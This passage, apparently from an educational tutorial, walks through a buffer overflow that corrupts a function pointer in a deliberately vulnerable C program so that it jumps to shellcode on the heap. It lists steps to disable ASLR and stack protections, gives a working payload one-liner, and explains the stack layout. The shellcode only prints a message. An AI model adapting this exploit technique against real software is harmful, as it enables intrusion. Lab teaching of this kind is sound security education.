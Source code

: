     printf("Corrupted function pointer\t 0x%08x\n", function_pointer);

    // if function pointer exists, execute
    if (function_pointer)
    {
        printf("Calling func pointer\t 0x%08x\n", function_pointer);
        function_pointer();
    }
    return 0;
}
{{< / highlight >}}

**Preparation instructions:**
 * Login as root `sudo su`
 * `echo 0 > /proc/sys/kernel/randomize_va_space`
 * exit root

**Compile instructions:**

`$ gcc heap_spray_user_input.c -fno-stack-protector -z execstack -m32 -g -o heap_spray_user_input`

**Run instructions:**

    $ python -c print('\xe9\x1e\x00\x00\x00\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\x590\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xdd\xff\xff\xffhello_friends\x0d\r\n' + ('A' * 64 + '\x60\xb1\x04\x08'))" | ./heap_spray_user_input

*You will likely need to change the final hex code `\x60\xb1\x04\x08` to be whatever your "user_input" address is. Notice the address is printing in reverse due to the endianess of my machine.

## How does your code work?

1. We place shellcode on the heap
    - The first user input of our python script is the shellcode
2. We perform a buffer overflow on the buffer
    - The second input with the 64 'A's is us filling up the buffer
3. The function pointer is corrupted by the buffer overflow and points to some address on the heap
    - The third input `\x60\xb1\x04\x08` is the address we want to "overflow" the buffer with

A buffer overflow exploits the way memory is allocated on the stack. As you assign variables in your program, they get added on the stack. Not all variables are allocated this way. Things like `malloc` will use the heap. But typically buffer overflow deals with the stack.

This buffer is placed on the stack:

```
char buffer[64];
```

Lets pretend it has an address of `0xffc8c7d8`.

The function pointer is also placed on the stack:

```
volatile int (*function_pointer)();
```

Lets pretend it has an address of `0xffc8c818`.
